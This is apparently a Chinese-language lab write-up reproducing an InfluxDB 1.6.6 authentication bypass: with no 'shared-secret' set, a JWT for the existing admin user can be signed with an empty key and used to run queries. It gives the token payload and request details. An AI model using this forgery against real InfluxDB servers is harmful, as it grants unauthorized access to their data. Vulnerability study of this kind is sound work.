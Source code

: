 # InfluxDB 未授权访问漏洞

## 漏洞描述

influxdb是一款著名的时序数据库，其使用jwt作为鉴权方式。在用户开启了认证，但未设置参数`shared-secret`的情况下，jwt的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在influxdb中执行SQL语句。

JWT，全称是JSON Web Token，是一种易于使用、无状态的鉴权方式。简单来说，就是Server端把JSON数据经过加密做成token，以授权给Client端。

参考链接：

- https://www.komodosec.com/post/when-all-else-fails-find-a-0-day
- https://docs.influxdata.com/influxdb/v1.7/administration/config/#http-endpoints-settings

## 环境搭建

执行如下命令启动influxdb 1.6.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8086/debug/vars`即可查看一些服务信息，但此时执行SQL语句则会出现401错误：

![image-20220224131904529](images/202202241319614.png)

## 漏洞复现

借助https://jwt.io/来生成jwt token：

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "username": "admin",
  "exp": 1745680213
}
```

其中，`admin`是一个已经存在的用户，`exp`是一个时间戳，代表着这个token的过期时间，你需要设置为一个未来的时间戳，`secret`置空。

最终生成的token：

![image-20220224132837081](images/202202241328222.png)

发送带有这个jwt token的数据包，注意Content-Type设置为`application/x-www-form-urlencoded`。

可见SQL语句执行成功：

![image-20220224133310332](images/202202241333480.png)


